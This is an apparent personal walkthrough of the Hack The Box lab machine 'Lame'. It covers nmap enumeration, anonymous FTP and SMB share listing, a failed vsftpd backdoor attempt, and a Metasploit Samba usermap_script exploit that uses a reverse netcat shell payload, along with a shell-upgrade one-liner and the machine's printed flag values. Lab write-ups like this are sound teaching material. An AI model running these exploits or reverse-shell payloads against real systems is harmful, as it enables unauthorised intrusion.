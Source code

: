 # 🧠 HTB Lame — Rooted with Exploits

Hey if you’re reading this. Today I completed the Lame hack the box machine. I hope this writeup serves as a guide and my thought process.

---

## 🔍 Nmap Scan Results

I began by scanning the target machine (10.10.10.3) to identify open ports and services:

```bash
┌──(futaba㉿FutabaLab)-[~/Downloads/htb/Lame]
└─$ nmap -A -sV --top-ports 1000 10.10.10.3
```

**Nmap Output:**

```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 2.3.4
22/tcp  open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

Notably, FTP (port 21) allows anonymous login, and Samba (ports 139 and 445) is running version 3.0.20-Debian.

---

## 📂 Anonymous FTP Access

I attempted to connect to the FTP service:

```bash
┌──(futaba㉿FutabaLab)-[~/Downloads/htb/Lame]
└─$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:futaba): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||52422|).
150 Here comes the directory listing.
226 Directory send OK.
ftp>
```

However, the directory listing was empty, which seemed suspicious. I decided to investigate further.

---

## 🐍 Exploiting vsFTPd 2.3.4 Backdoor (CVE-2011-2523)

The version of vsFTPd running (2.3.4) is known to have a backdoor that can be exploited. I used Metasploit to attempt an exploit:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use exploit/unix/ftp/vsftpd_234_backdoor
[*] Using configured payload cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact
payload => cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Unfortunately, this attempt did not create a session :( I decided to explore other things.

---

## 🖥️ Enumerating Samba Shares

Next, I enumerated the Samba shares:

```bash
┌──(futaba㉿FutabaLab)-[~/Downloads/htb/Lame]
└─$ smbclient -L //10.10.10.3 -N
Anonymous login successful

    	Sharename   	Type  	Comment
    	---------   	----  	-------
    	print$      	Disk  	Printer Drivers
    	tmp         	Disk  	oh noes!
    	opt         	Disk
    	IPC$        	IPC   	IPC Service (lame server (Samba 3.0.20-Debian))
    	ADMIN$      	IPC   	IPC Service (lame server (Samba 3.0.20-Debian))
```

The `tmp` share had the comment "oh noes!" and seemed worth investigating.

---

## 🗂️ Accessing the tmp Share

I connected to the `tmp` share:

```bash
┌──(futaba㉿FutabaLab)-[~/Downloads/htb/Lame]
└─$ smbclient //10.10.10.3/tmp -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                               	D    	0  Sat May  3 13:14:49 2025
  ..                             	DR    	0  Sat Oct 31 17:33:58 2020
  .ICE-unix                      	DH    	0  Sat May  3 04:01:29 2025
  vmware-root                    	DR    	0  Sat May  3 04:03:03 2025
  .X11-unix                      	DH    	0  Sat May  3 04:01:53 2025
  .X0-lock                       	HR   	11  Sat May  3 04:01:53 2025
  5541.jsvc_up                    	R    	0  Sat May  3 04:02:28 2025
  hago                            	N    	0  Sat May  3 08:20:41 2025
  vgauthsvclog.txt.0              	R 	1600  Sat May  3 04:01:27 2025
```

I downloaded the files `5541.jsvc_up`, `hago`, and `vgauthsvclog.txt.0` for further analysis.

---

## 📄 Analyzing vgauthsvclog.txt.0

The `vgauthsvclog.txt.0` file contained logs from the VMware Guest Authentication Service. Here's what it had:

```
[May 02 14:01:27.299] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[May 02 14:01:27.299] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[May 02 14:01:27.299] [ message] [VGAuthService] Group 'service'
[May 02 14:01:27.299] [ message] [VGAuthService]  	samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[May 02 14:01:27.299] [ message] [VGAuthService] Pref_Log 
```
Uhhh nothing too interesting!

---

## 🚪 Exploiting Samba 3.0.20 — usermap\_script RCE

Since access to the `opt` share was denied and we still had zero credentials, I turned my attention to the vulnerable Samba version: `3.0.20-Debian`. From a `searchsploit` command, we can find an interesting exploit:

> **Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)**

Perfect.

I fired up Metasploit and configured the `usermap_script` exploit:

```bash
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(multi/samba/usermap_script) > set RHOSTS (MACHINE IP HERE)
RHOSTS => (MACHINE IP HERE)

msf6 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse_netcat
payload => cmd/unix/reverse_netcat

msf6 exploit(multi/samba/usermap_script) > set LHOST (YOUR IP HERE)
LHOST => (YOUR IP HERE)

msf6 exploit(multi/samba/usermap_script) > set LPORT 4444
LPORT => 4444

msf6 exploit(multi/samba/usermap_script) > run
[*] Started reverse TCP handler on (YOUR IP HERE):4444
[*] Command shell session 1 opened!
```

🎯 **Boom — shell obtained.**

---

## 🧑‍💻 Privilege Escalation

I quickly upgraded the shell with:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Now sitting in a proper shell as `root`, I checked for sudo permissions:

```bash
root@lame:/# sudo -l
User root may run the following commands on this host:
  (ALL) ALL
```

Yep, **we are root**.

---

## 🏁 Post Exploitation & Flags

I grabbed both the **user** and **root** flags:

```bash
root@lame:/# cat /home/makis/user.txt
61e8183ff3900a6f7e0fff9b283d34b7

root@lame:/# cat /root/root.txt
53e988932913b188adf01f1658ca6a8c
```

🏆 [Achievement Unlocked](https://www.hackthebox.com/achievement/machine/1519610/1)

---

## 🧠 Final Thoughts

This machine definitely lives up to its name... **Lame!**. It’s a very easy box with outdated services and known public exploits. The steps were:

1. Nmap scan for enumeration.
2. FTP anonymous access (didn't help much).
3. Failed `vsftpd` backdoor exploit.
4. Samba share enumeration.
5. Successful RCE via `user_map_script` exploit on Samba.

The hardest part was... well, making this writeup hahaha. 😅

---

## 🎓 Lessons Learned

* Always check software versions — CVEs are your best friend.
* Enumerate **everything**, even if it looks empty.
* Not all exploits result in a shell — but don't give up too fast!
* Samba is often an easy win in CTF-style boxes when it's this outdated.

---

Thanks for reading! 🎉
